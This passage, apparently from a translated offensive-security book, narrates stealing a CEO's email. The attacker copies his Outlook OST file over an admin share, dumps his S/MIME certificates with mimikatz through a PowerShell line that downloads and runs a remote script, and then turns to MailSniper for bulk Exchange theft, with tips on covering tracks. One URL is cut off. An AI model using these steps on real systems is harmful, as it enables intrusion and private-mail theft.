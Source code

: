 提示：为了避免引起怀疑，我们将尽快清理GPO策略和注册表项；我们选择修改注册表以执行脚本，但是，如果将RDP发送到域控制器，则可以有更大的选择范围（部署脚本，.msi文件等）。 由于事件日志将注册此交互式会话，因此它也不太隐秘。

## 5.3 邮件

### 5.3.1 精准钓鱼（有针对性的方法）

获取特定员工电子邮件的最简单方法是将他们的计算机作为目标\[76\]，然后下载Outlook的缓存文件（email.OST）：

* C:\Users\eric\AppData\Local\Microsoft\Outlook
* C:\Documents and Settings\eric\Local Settings\Application Data\Microsoft\Outlook

首席执行官的电脑不像朱丽叶的那么封闭，所以我们只安装远程共享\FRPC074\C$，使用域管理凭证并访问他的所有文件。我们复制eric。blackie@sph- assets.com的OST文件到我们的Front Gun 服务器，查看CEO发送或接收的每一封电子邮件。

然而，当我们使用常规工具打开OST文件时\[77\]，我们无法查看大多数敏感邮件。我们的CEO似乎使用了s/MIME加密来保护他的邮件。

 ![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/5.3-1.jpg) 

s/MIME 

s/MIME是一种基于公钥基础设施的安全交换电子邮件的标准协议。简单言之，每个用户都有一个公钥和私钥。当用户A向用户B发送电子邮件时，A使用B的公钥对内容进行加密。因为只有用户B拥有可以反加密的私钥，所以只有用户B可以查看电子邮件。 对于签名，则执行相反的过程。用户A使用自己的私钥对邮件进行签名，由于用户B可以访问A的公钥，所以用户B可以对签名进行反向验证其真实性。 现在这个方案过于简化，没有涉及混合加密、密钥仪式、密钥交换、证书颁发机构等，因为它们对我们的案例研究来说无关紧要\[78\]。

目前的问题是Eric的私钥存储在他的机器上。但是我们不能访问它，即使有管理员权限，因为Windows将它标记为“不可导出”……我们该如何处理呢?

mimikatz再次营救！多么棒的工具！我们在CEO的计算机上运行它，以切换内存中的“可导出”位并将所有证书转储到本地文件中。

我们将RDP \[79\]复制到CEO的机器上，并准备我们久经考验的脚本：

```text
PS> $browser = New-Object System.Net.WebClient
PS> $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredential
PS>
IEX($browser.DownloadString("https://raw.githubusercon Mimikatz.ps1"))
PS> invoke-mimikatz -DumpCerts
```

![xxx&#x793A;&#x610F;&#x56FE;](https://github.com/xncoder/HackPornstar/tree/d9c01c00001f788ed4497e9f5ec1f4fc077d3117/Chap5/5.3-2.jpg) 我们在Front Gun机器上安装证书，然后欣赏我们亲爱的CEO的解密电子邮件！

### 5.3.2 通用方法

上面的技术很棒，但是在十几个或一百个邮箱中重复执行此操作并不理想。显然，如果每个人都对自己的电子邮件进行加密，那么实际上就没有办法了。幸运的是，很少有人对电子邮件进行加密……我们举了一个极端的例子来说明如何做到这一点，但在现实生活中这种情况很少发生。

为了获取所有人的电子邮件，我们轻轻地要求本地Exchange服务器将存储在其中的每封电子邮件交给我们。由于Exchange服务器是域的一部分，因此它将轻轻地合规。我们可以使用MailSniper，这是用PowerShell编写的工具，提供了必要的命令来提取和排序电子邮件。在此处查看正在使用的工具\[80\]。

